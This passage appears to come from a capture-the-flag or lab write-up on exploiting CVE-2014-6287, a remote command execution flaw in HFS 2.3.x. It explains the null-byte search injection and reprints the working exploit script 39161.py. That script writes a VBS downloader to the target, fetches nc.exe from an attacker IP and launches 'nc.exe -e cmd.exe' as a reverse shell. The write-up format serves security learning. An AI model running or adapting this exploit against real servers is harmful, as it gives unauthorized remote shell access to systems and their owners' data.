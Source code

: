 After that, we can read through all the exploit code.

**39161.py:**
```python
[...]
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux.

#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
#          You may need to run it multiple times for success!
[...]
```

Upon researching the CVE ID, we know that:

> HFS versions 2.3, 2.3a, and 2.3b are vulnerable to remote command execution due to a regular expression in `parserLib.pas` that fails to handle null bytes. Commands that follow a null byte in the search string are executed on the host system. As an example, the following search submitted to a vulnerable HFS instance launches calculator on the host Microsoft Windows system.
>  
> - `http://<vulnerable instance>/?search==%00{.exec|calc.}`
>  
> From [https://vk9-sec.com/hfs-code-execution-cve-2014-6287/](https://vk9-sec.com/hfs-code-execution-cve-2014-6287/)

That being said, we can execute arbitrary commands via `<null_byte>{.exec|<arbitrary_command>.}`.

**In the `39161.py` exploit Python script, it's executing arbitrary commands to upload a VBS script, and then execute it:**
```python
try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
```